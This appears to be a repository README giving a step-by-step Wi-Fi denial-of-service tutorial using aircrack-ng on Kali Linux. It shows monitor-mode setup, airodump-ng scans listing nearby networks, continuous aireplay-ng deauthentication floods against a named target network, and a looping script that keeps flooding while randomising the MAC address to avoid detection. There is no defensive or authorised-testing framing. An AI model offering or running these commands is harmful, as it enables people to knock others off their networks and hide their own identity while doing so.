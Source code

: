 # DOS-Attack

---
**What is DOS ATTACK?**

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
For More Depth[Wikipedia](https://en.wikipedia.org/wiki/Denial-of-service_attack)

---

USING AIRCRACK-NG

```
root@kali:~# ifconfig

```
note down the name of your wireless interface
here **wlan0** is used and create a .sh file (use your favourite text editor)
```
root@kali:~#vi monitor.sh

(for using vim editor type)

insert
type whatever content u want to whatever
esc
:wq)

```
[For More Vim Command](https://www.tutorialspoint.com/vim/vim_editing.htm)

*And type the following command*

```
#!/bin/bash

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0 | grep Mode

```

In Another tab:

```
root@kali:~# chmod +x monitor.sh
root@kali:~# ./monitor.sh

(some expected output)

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm

root@kali:~#airodump-ng wlan0

(scanning)

some expected output

CH 10 ][ Elapsed: 1 min ][ 2020-05-01 06:41 ][ interface wlan0 down                                                                                                                                             

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                 

 BE:2A:16:CC:C4:C0  -31      100        0    0  11  180   WPA2 CCMP   PSK  ABHIJIT                                                                                                                               
 BE:2F:3D:31:8A:CC  -24      151        0    0   1   65   WPA2 CCMP   PSK  vivo 1609                                                                                                                             
 C4:E9:0A:E3:5D:3C  -62      179        0    0   6  270   WPA2 CCMP   PSK   AUTO CENTER

 ```

Note down the channel no. and BSSID of the router you want to attack here we are attacking ESSID "ABHIJIT"
channel=11
**BBSID=BE:2A:16:CC:C4:C0**

```
root@kali:~# iwconfig channel 11

(switching to the required channel)

root@kali:~# aireplay-ng -0 0 -a BE:2A:16:CC:C4:C0 wlan0 -e ABHIJIT

```

('-0' is used for deauthentication the next number denotes the number the deauthentication packets to be sent if it is 0 it will send continuously untill stopped manually)

#####EXTRA TIPS (IFF not using virtual systems)

creating a .sh which will continuously send some deauthentication packets and then change the mac address of the system , sleeping for some seconds and then the process carries on

```
root@kali:~# vi dos.sh

#!/bin/bash


while true
do
        iwconfig wlan0 channel $1
        aireplay-ng -0 5 -a $2 wlan0
        ifconfig wlan0 down
        macchanger -r eth0 | grep "New MAC"
        ifconfig wlan0 up
        sleep 3

done

```
**In different Tab**

```
root@kali:~#chmod +x dos.sh

root@kali:~#./dos.sh 11 BE:2A:16:CC:C4:C0

```

(dynamic value is used in the dos.sh, 11 goes to $1 , BE:2A:16:CC:C4:C0 goes to $2)


**NOTE**
>after the process the wireless interface can show trouble so run the below code or  reboot your system
```
root@kali:~#service network-manager restart

```
